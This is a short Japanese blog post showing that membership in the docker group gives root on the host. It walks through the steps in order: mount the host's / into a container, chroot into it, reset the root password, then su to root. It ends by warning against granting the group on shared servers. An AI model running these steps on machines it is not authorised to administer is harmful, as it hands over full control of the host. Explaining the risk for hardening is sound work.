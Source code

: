 ```yaml
---
title: dockerグループの権限でホストのrootアカウントを奪取する
pubtime: 2016-06-14T10:27:00+09:00
tags: [Linux, Docker, セキュリティ]
description: dockerを使うときに使うdockerグループの権限があれば、そのホストのrootアカウントを簡単に奪取出来るそうです。実際に試してみました。
---
```


[docker](https://www.docker.com/)というコンテナ型の仮想化ソフトがありますよね。
セキュリティが宜しくないとかで、置き換えを目指す[rkt](https://coreos.com/rkt/)という別のソフトウェアが出て来ていたりします。

調べてみたところ、dockerグループに属した一般ユーザーがrootの権限を使えるらしいです。ヤバそうです。試してみました。

ひとまず、ubuntuか何かのイメージを落してきます。使うイメージはなんでも良いと思います。
ちなみにホストマシンには[CoreOS](https://coreos.com/)を使ってみました。
```
ホストマシン $ docker pull ubuntu
```

出来たら、起動します。
```
ホストマシン $ docker run -itv /:/mnt ubuntu /bin/bash
```
ホストマシンのルートディレクトリを`/mnt`にマウントしている、というのがポイントです。
あとのオプションは適当に調べてください。

次に、ホストマシンのルートディレクトリにchrootを行ないます。
```
コンテナ # chroot /mnt /bin/bash
```
これでホストマシンのrootに（擬似的に）なれました。

rootのパスワードを変えます。
```
chrootしたあと # passwd
```
これが出来たら、あとはexit2回でマシンを閉じます。

設定したパスワードでログイン出来るか試してみましょう。
```
ホストマシン $ su -
Password:
```
普通にrootになれると思います。

ね、簡単でしょう？
共有サーバーで運用する場合、dockerグループも迂闊に渡さないようにしたほうが良さそうです…。
